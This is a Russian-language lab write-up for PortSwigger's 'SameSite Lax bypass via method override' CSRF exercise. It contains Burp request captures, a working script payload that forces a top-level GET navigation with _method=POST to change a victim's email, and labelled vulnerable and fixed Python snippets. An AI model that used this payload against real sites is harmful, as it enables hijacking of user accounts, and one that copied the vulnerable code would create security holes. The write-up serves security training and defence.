




## Lab: SameSite Lax bypass via method override

**Платформа:** PortSwigger Web Security Academy      
**Категория:** CSRF      
**Сложность:** Practitioner       
**Дата:** 2025-07-22      

---

## TL;DR
Сессионная кука не имеет явного атрибута SameSite — Chrome
применяет Lax по умолчанию. Стандартный CSRF через POST форму
не работает. Сервер поддерживает переопределение метода через
параметр `_method=POST` — это позволяет выполнить смену email
через GET запрос который Lax разрешает при навигации верхнего уровня.

---

## Отличие от базового CSRF

```
Базовый CSRF:
Нет защиты → POST форма с другого сайта → работает

Эта лаба:
SameSite=Lax (по умолчанию) → POST с другого сайта → кука не отправляется
НО: GET навигация → кука отправляется
НО: сервер поддерживает _method=POST → GET работает как POST
Итог: обход через GET навигацию + переопределение метода
```

---

## Что такое SameSite=Lax

```
SameSite=Strict  → кука не отправляется при любых кросс-сайтовых запросах
SameSite=Lax     → кука отправляется только при GET навигации верхнего уровня
SameSite=None    → кука отправляется всегда

GET навигация верхнего уровня (Lax разрешает):
→ document.location = "..."
→ window.location.href = "..."
→ клик на ссылку <a href="...">

НЕ навигация (Lax блокирует):
→ fetch() POST запрос
→ <form method="POST"> submit()
→ XMLHttpRequest
```

---

## Разведка

### Шаг 1 — Анализ запроса смены email

Вошла под wiener:peter, заполнила форму смены email,
перехватила запрос в Burp:

```http
POST /my-account/change-email HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=СЕССИЯ

email=test@test.com
```

Нет CSRF токена — потенциально уязвимо к CSRF.



### Шаг 2 — Проверка SameSite атрибута

Посмотрела ответ на POST /login:

```http
HTTP/2 200 OK
Set-Cookie: session=abc123; HttpOnly
```

Нет явного SameSite атрибута — Chrome применяет Lax по умолчанию.
Стандартная CSRF атака через POST форму не сработает.

### Шаг 3 — Проверка переопределения метода

Отправила POST запрос в Burp Repeater.
Правый клик → Change request method → Burp конвертировал в GET:

```http
GET /my-account/change-email?email=test@test.com HTTP/1.1
```

Сервер вернул 405 Method Not Allowed.

Добавила параметр _method:

```http
GET /my-account/change-email?email=test@test.com&_method=POST HTTP/1.1
```

Сервер вернул 200 — email изменился! Сервер поддерживает
переопределение метода через _method.



---

## Эксплуатация

### Шаг 4 — Создание exploit payload

На exploit сервере в разделе Body разместила:

```html
<script>
    document.location = "https://LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@evil.com&_method=POST";
</script>
```

Почему document.location а не форма:
```
form.submit() POST  → SameSite=Lax блокирует куку → не работает
document.location   → это GET навигация верхнего уровня
                    → SameSite=Lax разрешает куку
                    → _method=POST → сервер обрабатывает как POST
                    → email изменён
```




### Шаг 5 — Доставка жертве

Изменила email в payload на другой адрес.
Нажала Deliver to victim — лаба решена.



---

## Полная цепочка атаки

```
Жертва открывает exploit сервер
         ↓
document.location перенаправляет браузер на:
/my-account/change-email?email=pwned@evil.com&_method=POST
         ↓
Это GET навигация верхнего уровня
SameSite=Lax разрешает отправку куки сессии
         ↓
Сервер получает GET запрос с кукой сессии жертвы
         ↓
Сервер видит _method=POST → обрабатывает как POST
         ↓
Email жертвы изменён
```

---

## Почему только Chrome

Chrome с 2020 года автоматически применяет SameSite=Lax
когда атрибут не указан явно. Firefox и Safari могут
вести себя иначе — поэтому лаба требует Chrome.

---

## Защита

```python
# УЯЗВИМО — нет явного SameSite:
response.set_cookie('session', token, httponly=True)
# Chrome применяет Lax автоматически — GET навигация проходит

# БЕЗОПАСНО — явный Strict:
response.set_cookie('session', token, httponly=True, samesite='Strict')
# Strict блокирует ВСЕ кросс-сайтовые запросы включая GET навигацию
```

```python
# УЯЗВИМО — переопределение метода без проверки:
method = request.args.get('_method', request.method)
if method == 'POST':
    handle_post(request)

# БЕЗОПАСНО — не доверять _method для чувствительных действий:
# Принимать только реальный метод запроса
if request.method != 'POST':
    return 405
handle_post(request)
```

Дополнительно:
- Использовать SameSite=Strict на сессионных куках явно —
  не полагаться на поведение браузера по умолчанию
- Добавить CSRF токен — даже с Lax это дополнительный слой защиты
- Не поддерживать переопределение метода через _method
  для чувствительных эндпоинтов